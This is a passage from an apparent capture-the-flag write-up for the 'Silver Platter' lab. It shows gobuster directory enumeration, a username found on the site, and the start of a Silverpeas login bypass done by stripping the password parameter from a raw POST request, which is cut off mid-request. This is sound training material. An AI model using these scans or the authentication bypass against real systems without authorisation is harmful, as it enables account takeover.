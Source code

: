   ```
  |   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SMBProgNeg, SSLSessionReq, Socks5, TLSSessionReq, TerminalServerCookie: 
  |     HTTP/1.1 400 Bad Request
  |     Content-Length: 0
  |_    Connection: close
  ```

  ```
  $ gobuster dir -u http://silverplatter.thm/ -w /usr/share/wordlists/dirb/common.txt

  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /assets               (Status: 301) [Size: 178] [--> http://10.10.49.42/assets/]
  /images               (Status: 301) [Size: 178] [--> http://10.10.49.42/images/]
  /index.html           (Status: 200) [Size: 14124]
  Progress: 4614 / 4615 (99.98%)
  ===============================================================
  Finished
  ===============================================================
  
  $ gobuster dir -u http://silverplatter.thm:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
  
  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /website              (Status: 302) [Size: 0] [--> http://10.10.49.42:8080/website/]
  /console              (Status: 302) [Size: 0] [--> /noredirect.html]
  Progress: 87664 / 87665 (100.00%)
  ===============================================================
  Finished
  ===============================================================
  ```
  
- Here, when you try to access any found directory you will see either 403 or 404.

- On the main page in contact section you can find this:

  ```
  If you'd like to get in touch with us, please reach out to our project manager on Silverpeas. His username is "scr1ptkiddy".
  ```
  
- We will note that username and then check `/silverpeas` on the port 8080, and well, there's a login page!

  ```http://silverplatter.thm:8080/silverpeas -> http://silverplatter.thm:8080/silverpeas/defaultLogin.jsp```

---

## 🌐 Web Exploitation

- OK, so here there's actually 2 ways to bypass login: weak authorization or brute force. I did it with Burp interception and removing the password parameter.
  More details about that CVE you can find [here](https://gist.github.com/ChrisPritchard/4b6d5c70d9329ef116266a6c238dcb2d).

  ```
  POST /silverpeas/AuthenticationServlet HTTP/1.1
  Host: silverplatter.thm:8080
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate, br
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 36